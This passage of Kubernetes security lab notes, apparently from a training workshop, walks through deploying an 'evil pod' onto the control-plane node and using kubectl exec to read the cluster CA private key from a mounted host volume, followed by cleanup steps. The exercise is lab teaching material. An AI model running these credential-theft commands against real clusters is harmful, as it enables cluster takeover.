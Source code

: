 You now no longer have a priv esc to exploit, but there's often another trick.

Let's take a look at a special pod manifest 
```
cat k8s-manifests/evilpod.yaml
```

Note the nodeName and volume mounts.

### Slide 141 - Evil Pod (Lab Cont.)

Let's create this pod and deploy it on the controlplane node. 
```
kubectl apply -f k8s-manifests/evilpod.yaml
```
**Note:** You cloud also run `create` instead of `apply` but apply will create if it doesn't exist and modify the pod specifications to match the manifest and restart it, if it does.

Now that the pod's running, we can run a simple command to steal the key from the host volume mounted inside of it.
```
kubectl exec -it -n pls-dont-hack-me evil-pod -- cat /controlplane/etc/kubernetes/pki/ca.key
```

Much more straight forward way of getting to the control plane as developer, that often works in Kubernetes nodes without Admissions Controller checks.

### Slide 145 - Cleanup

Switch back to original account/context
```
kubectl config use-context kind-lab
```

Verify your admin rights are back (look for * on resources and verbs)
```
kubectl auth can-i --list
```

This is optional, but run apply these manifests if you want to put back the service account and pod used in the priv esc lab if you want to do it again later.

```
kubectl apply -f k8s-manifests/serviceaccounts.yaml
```

```
kubectl apply -f k8s-manifests/pods.yaml
```

You can run this to delete the evilpod since you're done with it.
```
kubectl delete -f k8s-manifests/evilpod.yaml
```

### Slide 151 - Ex: Cloud Metadata attacks

Execute a pod in our lab with heavily restricted permissions.
